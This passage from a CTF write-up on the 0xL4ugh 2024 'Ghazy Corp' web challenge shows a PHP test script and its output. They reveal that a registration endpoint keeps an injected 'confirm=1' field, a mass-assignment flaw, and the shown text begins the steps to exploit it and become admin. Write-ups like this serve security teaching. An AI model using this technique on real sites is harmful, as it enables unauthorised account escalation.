 ```php
$placeholders = implode(', ', array_fill(0, count($safe_array), '?'));
$sql = "INSERT INTO users (" . implode(', ', array_keys($safe_array)) . ") VALUES (" . $placeholders . ")";
echo "[*] SQL query: $sql\n";

$types = str_repeat('s', count($safe_array));
$bindParamString = $types . ", " . implode(', ', array_values($safe_array));

echo "[*] Function bind_param value: bind_param($bindParamString)\n";
?>
```

```shell
┌[siunam♥Mercury]-(~/ctf/0xL4ugh-CTF-2024/Web/Ghazy-Corp/test)-[2024.02.11|20:56:03(HKT)]
└> php test.php
[*] POST request body data:
email=siunam@siunam321.github.io&password=12345678910&register-submit=&confirm=1
[+] Before filtering:
Array
(
    [email] => siunam@siunam321.github.io
    [password] => 12345678910
    [register-submit] => 
    [confirm] => 1
)
[+] After filtering:
Array
(
    [email] => siunam@siunam321.github.io
    [password] => 432f45b44c432414d2f97df0e5743818
    [confirm] => 1
)
[*] SQL query: INSERT INTO users (email, password, confirm) VALUES (?, ?, ?)
[*] Function bind_param value: bind_param(sss, siunam@siunam321.github.io, 432f45b44c432414d2f97df0e5743818, 1)
```

Hence, `src/register.php` is vulnerable to **mass assignment**, which **allows us to make our user account to be `confirmed`**. 

## Exploitation

Putting all the pieces of puzzles back together, we can now become an admin user!!

### Register a New `confirmed` User Account By Exploiting Mass Assignment Vulnerability

- First, create a new mail account: (We can't use the same email address to register a new user account)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/0xL4ugh-CTF-2024/images/Pasted%20image%2020240211223603.png)
